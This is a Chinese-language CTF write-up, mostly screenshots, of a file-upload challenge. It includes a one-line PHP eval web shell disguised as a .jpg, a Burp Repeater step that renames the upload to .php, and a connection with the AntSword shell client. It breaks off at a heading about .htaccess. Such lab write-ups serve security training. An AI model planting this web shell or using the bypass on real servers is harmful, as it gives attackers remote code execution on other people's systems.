 ### 题目：

![](images/timu1.png)

![](images/题目1.png)

### 解题

工具：蚁剑、burp

![](images/yuanma.png)

查看网页源码发现只能上传jpg、png、gif格式的文件

创建一个名为ctf.jpg的文件，写入

```php
<?php @eval($_POST["ctf"]);?>
```

将文件上传，上传成功

![](images/成功.png)

打开burp,找到记录

![](images/1.png)

放入重放器中

![](images/2.png)

找到上传的文件，将文件的后缀改为php,并重新发送

![](images/4.png)

看一下页面渲染，成功上传了

打开蚁剑连接

![](images/意见.png)

![](images/意见1.png)

![](images/意见3.png)

![](images/f-1.png)

## .htaccess

### 题目：

![](images/timu2.png)
